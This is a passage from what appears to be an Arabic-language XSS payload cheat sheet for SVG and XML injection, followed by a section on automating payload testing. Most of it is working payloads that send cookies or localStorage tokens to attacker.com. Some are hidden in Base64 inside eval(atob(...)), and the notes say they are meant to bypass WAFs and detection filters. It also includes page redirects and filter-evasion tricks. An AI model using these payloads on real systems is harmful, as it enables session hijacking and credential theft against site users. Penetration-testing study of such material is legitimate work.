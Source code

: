 - **الحقن**: `<root><a xlink:href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a></root>`
  - **الإدخال**: أرسل عبر طلب POST: `<root><a xlink:href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a></root>`
  - **كيف يعمل**: يرسل رمز الجلسة عند النقر.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.

#### هـ. حقن مع التعتيم
{ #ideas_for_url /  #XSS_ecoded_payload /  #XSS_idea_XML / #XSS_Idea_for_SVG_tag }
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<svg><script>eval(atob('YWxlcnQoJ1hTUycp'))</script></svg>`
  - **الإدخال**: أدخل في حقل نصي: `<svg><script>eval(atob('YWxlcnQoJ1hTUycp'))</script></svg>`
  - **كيف يعمل**: يفك تشفير Base64 لتنفيذ تنبيه.
  - **متى يُستخدم؟**: لتجاوز فلاتر WAF.
- **الحقن**: `<svg onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))"></svg>`
  - **الإدخال**: قم بتحميل ملف SVG يحتوي على: `<svg onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))"></svg>`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لتجنب أنظمة الكشف.
- **الحقن**: `<svg><script>document['location']='http://attacker.com'</script></svg>`
  - **الإدخال**: أدخل في وصف: `<svg><script>document['location']='http://attacker.com'</script></svg>`
  - **كيف يعمل**: يستخدم صيغة غير قياسية لإعادة التوجيه.
  - **متى يُستخدم؟**: لتجنب فلاتر البحث عن الكلمات.
- **الحقن**: `<svg><a xlink:href="javascript:alert(String.fromCharCode(88,83,83))"><text>Click</text></a></svg>`
  - **الإدخال**: أدخل في حقل تعليق: `<svg><a xlink:href="javascript:alert(String.fromCharCode(88,83,83))"><text>Click</text></a></svg>`
  - **كيف يعمل**: ينشئ تنبيهًا باستخدام رموز ASCII.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر النصوص المباشرة.
- **الحقن**: `<root><a xlink:href="javascript:eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">Click</a></root>`
  - **الإدخال**: أرسل عبر API: `<root><a xlink:href="javascript:eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">Click</a></root>`
  - **كيف يعمل**: يفك تشفير Base64 في XML ويرسل البيانات.
  - **متى يُستخدم؟**: لتجاوز فلاتر XML.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests` أو `selenium`) لأتمتة اختبار مجموعة من الحقن المستخدمة في SVG وXML وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تستخدم SVG وXML.
  - مثال قائمة:
    ```
    <svg><script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script></svg>
    <svg onload="fetch('http://attacker.com/log?c='+document.cookie)"></svg>
    <svg><a xlink:href="javascript:fetch('http://attacker.com/log?c='+document.cookie)"><text>Click</text></a></svg>
    <root><a xlink:href="javascript:alert('XSS')">Click</a></root>
    <svg><script>eval(atob('YWxlcnQoJ1hTUycp'))</script></svg>
    ```
- **كيف يعمل**:
  - يتم إرسال الحقن عبر نقاط إدخال (مثل حقول نصية، تحميل ملفات، أو API).
  - يتم مراقبة الخادم الخارجي أو المتصفح لتأكيد التنفيذ.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.
